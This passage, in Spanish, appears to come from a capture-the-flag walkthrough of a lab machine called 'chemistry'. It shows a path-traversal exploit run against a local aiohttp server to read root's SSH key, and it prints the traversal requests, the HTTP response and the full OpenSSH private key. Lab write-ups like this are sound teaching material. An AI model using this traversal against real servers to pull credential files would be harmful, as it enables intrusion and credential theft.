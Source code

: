 Modificaremos el script original para que lea en este caso, el archivo `/root/.ssh/id_rsa` y así lograr obtener la clave privada del usuario `root` y conectarnos posteriormente por `SS.`

Volvemos a ejeuctar el exploit y verificamos que logramos visualizar el contenido correctamente.

```bash
rosa@chemistry:~$ ./exploit.sh 
Sending payloads...
Round 1: http://localhost:8080/assets/../root/.ssh/id_rsa
Round 2: http://localhost:8080/assets/../../root/.ssh/id_rsa
Round 3: http://localhost:8080/assets/../../../root/.ssh/id_rsa
[+] Success! File found.
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Etag: "17d9a4c79c30680c-a2a"
Last-Modified: Mon, 17 Jun 2024 00:58:31 GMT
Content-Length: 2602
Accept-Ranges: bytes
Date: Thu, 16 Jan 2025 05:31:20 GMT
Server: Python/3.9 aiohttp/3.9.1

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

